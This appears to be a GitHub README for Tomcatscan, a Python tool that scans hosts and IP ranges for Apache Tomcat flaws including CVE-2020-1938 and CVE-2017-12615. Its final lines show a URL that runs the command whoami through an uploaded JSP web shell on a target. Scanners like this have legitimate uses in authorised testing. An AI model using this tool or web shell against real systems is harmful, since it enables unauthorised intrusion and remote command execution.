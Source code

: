 # Tomcatscan
Tomcat common vulnerability detection

python3 Tomcatscan.py -u xxx -p xx  //对指定端口进行漏洞探测，同时会检测8009端口cve-2020-1938漏洞
![Image text](https://github.com/einzbernnn/Tomcatscan/blob/main/img/1.png)
python TomcatScan.py -H 192.168.1.1-192.168.2.255 //默认检测8080，8081，80，443，8009端口，如需深入探测，可以先利用信息收集工具收集tomcat url保存到文件中后通过 -f参数检测


python TomcatScan.py -f url.txt
#-f 参数 文件中ip的几种格式：

http://192.168.1.1:8080 ##检测8080端口，同时检测8009端口是否存在cve_2020_1938

http://192.168.1.1          ##检测80端口和443端口，同时检测8009端口是否存在cve_2020_1938

https://192.168.1.1        ##检测80端口和443端口，同时检测8009端口是否存在cve_2020_1938

192.168.1.1                   ##检测80端口和443端口，同时检测8009端口是否存在cve_2020_1938

192.168.1.1:8080         ##检测8080端口和443端口，同时检测8009端口是否存在cve_2020_1938


cve-2017-12615 shell利用：访问并执行命令
![Image text](https://github.com/einzbernnn/Tomcatscan/blob/main/img/2.png)
http://192.168.3.137:8080/1635405387.jsp?&pwd=023&cmd=whoami
